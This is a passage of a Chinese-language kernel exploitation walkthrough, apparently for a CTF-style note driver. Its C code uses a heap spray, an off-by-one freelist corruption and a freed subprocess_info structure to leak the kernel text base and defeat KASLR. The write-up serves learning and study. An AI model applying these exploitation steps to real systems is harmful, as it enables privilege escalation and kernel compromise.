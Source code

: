* 對於 step 3 呢, 到底要挑什麼結構, 就是最難的部份了 (linux 結構那麼多, 從何下手RRR)
  * 參考 [Kernel Exploitで使える構造体集](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)

## Leak kernel text
首先來構造 off-by-one
```c
    // allocate to a new page
    for (int i = 0; i < 41; ++i) {
        msg_alloc(0x80);
    }

    note_alloc();
```
* 前面 spray 了 41 個 0x80 大小的 object
  * 填滿了一頁, 申請新的一頁
  * 就是這個數量, note 下一塊 object 的 next ptr 會是 0x80 結尾

| address   | content   | comment     |
| --------- | --------- | ----------- |
| 0x?...180 | ????????? | note        |
| 0x?...200 | 0x?...280 | free object |
| 0x?...280 | 0x?...300 | free object |

(不一定是 180 啦, 但總之就是 80 結尾, 1 只是個舉例)

執行 off-by-one
```c
    // off-by-one
    note_write();
```

| address   | content   | comment     |
| --------- | --------- | ----------- |
| 0x?...180 | ????????? | note        |
| 0x?...200 | 0x?...200 | free object (阿 指向自己ㄌ) |
| 0x?...280 | 0x?...300 | free object |

接著我們先移動一下我們的 note 到這塊指向自己的 object
```c
    // move note
    note_close();      // freelist: 0x?...180 --> 0x?...200
    msg_alloc(0x80);   // freelist: 0x?...200 --> 0x?...200
    note_alloc();      // freelist: 0x?...200 --> note 的內容
```

接著, 使用 `socket(22, AF_INET, 0)`, 它會創造出 `subprocess_info` 結構並在結束 function 之前 free 掉
```c
    void *kernel_text;
    unsigned long long int offset;

    socket(22, AF_INET, 0); // 創造 `subprocess_info` 後, return 之前 free 掉
    note_read();            // 把殘留在記憶體上的 `subprocess_info` 內部數據取出

    kernel_text = (void *)(*(unsigned long long int *)(&read_args.addr[0x60]));
    kernel_text -= 0x6bac0;
    offset = (unsigned long long int)kernel_text - 0xffffffff81000000;
```
